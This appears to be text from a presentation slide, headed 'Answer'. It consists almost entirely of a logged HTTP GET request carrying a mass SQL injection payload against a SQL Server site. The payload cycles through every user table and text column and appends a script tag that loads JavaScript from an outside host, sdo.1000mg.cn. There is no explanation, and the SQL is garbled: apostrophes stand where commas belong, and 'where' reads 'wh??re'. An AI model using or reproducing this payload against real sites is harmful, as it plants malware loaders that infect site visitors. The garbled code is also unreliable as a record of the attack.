

# Answer
"GET
/programs/biosafety/bioSafety_handBook/Chapter%206-Bloodborne%20Pathogens%20Human%20Tissue?;DECLARE%20@S%20CHAR(4000);SET%20@S=CAST(0xDECLARE @T varchar(255)'@C varchar(4000) DECLARE Table_Cursor CURSOR FOR select a.name'b.name from sysobjects a'syscolumns b where a.id=b.id and a.xtype='u' and (b.xtype=99 or b.xtype=35 or b.xtype=231 or b.xtype=167) OPEN Table_Cursor FETCH NEXT FROM  Table_Cursor INTO @T'@C WHILE(@@FETCH_STATUS=0) BEGIN exec('update ['+@T+'] set ['+@C+']=['+@C+']+''"></title><script src="http://sdo.1000mg.cn/csrss/w.js"></script><!--'' wh??re '+@C+' not like ''%"></title><script src="http://sdo.1000mg.cn/csrss/w.js"></script><!--''')FETCH NEXT FROM  Table_Cursor INTO @T'@C END CLOSE Table_Cursor DEALLOCATE Table_Cursor

http://www.dolcevie.com/js/converter.html
23.08.2023